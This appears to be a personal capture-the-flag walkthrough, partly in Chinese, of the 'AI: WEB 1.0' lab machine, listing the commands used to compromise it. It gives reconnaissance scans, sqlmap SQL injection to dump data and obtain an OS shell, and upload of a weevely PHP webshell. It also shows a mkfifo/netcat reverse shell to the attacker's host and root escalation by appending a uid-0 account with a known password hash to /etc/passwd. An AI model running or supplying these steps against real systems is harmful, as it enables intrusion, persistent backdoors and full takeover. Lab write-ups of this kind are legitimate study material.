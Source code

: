# host discover
-r means range
`netdiscover -r 192.168.111.0/24`

# port scan
`nmap -p- 192.168.111.130 -A `
# dir scan
`dirb http://192.168.111.130`
`http://192.168.111.130/robots.txt`
`dirb http://192.168.111.130/m3diNf0` 发现info.php 和绝对路径
`dirb http://192.168.111.130/se3reTdir777/ ` 注意不要扫上一级
![image](https://user-images.githubusercontent.com/1063747/180630122-d9afea4b-3062-47b2-88bd-edd2496c62b3.png)

# web root document path
![image](https://user-images.githubusercontent.com/1063747/180630424-6e62ec60-246f-4ca3-af54-730bb069b59c.png)


# SQL inject
![image](https://user-images.githubusercontent.com/1063747/180630178-ad36abec-e781-40ff-bbbf-39527aaa9323.png)

![image](https://user-images.githubusercontent.com/1063747/180630233-273b8115-0d1e-4ef5-b37a-7dd9a6ffab44.png)

`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --dbs `
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" -D aiweb1 `

# SQL inject get shell
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --os-shell`

![image](https://user-images.githubusercontent.com/1063747/180630495-6ce66948-8ae5-437f-b9e8-7417485d7e64.png)

# weevely oneline torajan
`weevely generate 1 1.php`
the upload 
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --file-write /home/kali/1.php --file-dest /home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/1.php`

# Connect
`weevely http://192.168.111.130/se3reTdir777/uploads/1.php 1`

# find root  but failed
found nothing
`find / -user root -perm -4000 -print 2>/dev/null` 
`searchsploit 4.15 `

# kali reverse shell
Running in kali
`nc -lvvp 6666`
running in weevely 反弹shell
`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.111.128 6666 >/tmp/f &`

# find passwd vuln
```
ls -l /etc/passwd
-rw-r--r-- 1 www-data www-data 1664 Aug 21  2019 /etc/passwd
```
`openssl passwd -1 -salt hacker`
相当于把密码替换掉x 创建新用户
![image](https://user-images.githubusercontent.com/1063747/180631040-4a30ac4c-f7b8-45a3-a082-817335e930d1.png)

注意使用 /bin/bash
`echo 'hack:$1$hacker$6luIRwdGpBvXdP.GMwcZp/:0:0::/root:/bin/bash' >> /etc/passwd`

# weevely su
这里会失败 weevely 的反弹shell  su 会报错
`:shell_su -user hacker  123456 id`

# 使用交互shell
上传 tools/reverse_shell.php
`python -c 'import pty;pty.spawn("/bin/bash")'`
![image](https://user-images.githubusercontent.com/1063747/180632980-e7bd0f2e-cc3f-469f-9cad-5c1f91918332.png)

```
root@aiweb1:~# cat flag.txt
cat flag.txt
####################################################
#                                                  #
#                AI: WEB 1.0                       #
#                                                  #
#              Congratulation!!!                   #
#                                                  #
#      Thank you for penetrate my system.          #
#                                                  #
#            Hope you enjoyed this.                #
#                                                  #
#                                                  #
#  flag{cbe5831d864cbc2a104e2c2b9dfb50e5acbdee71}  #
#                                                  #
####################################################

```




